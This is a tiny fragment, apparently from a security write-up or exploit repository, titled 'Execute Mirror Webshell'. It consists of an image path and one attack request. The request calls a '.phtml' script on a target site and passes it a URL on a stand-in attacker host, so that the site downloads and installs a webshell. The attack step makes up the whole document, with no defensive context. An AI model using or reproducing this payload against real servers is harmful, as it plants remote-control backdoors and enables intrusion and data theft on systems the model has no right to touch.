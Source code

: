 # Execute Mirror Webshell

https://target.com/s/img/bcurl.phtml?url=https://attacker.com/webshell.txt
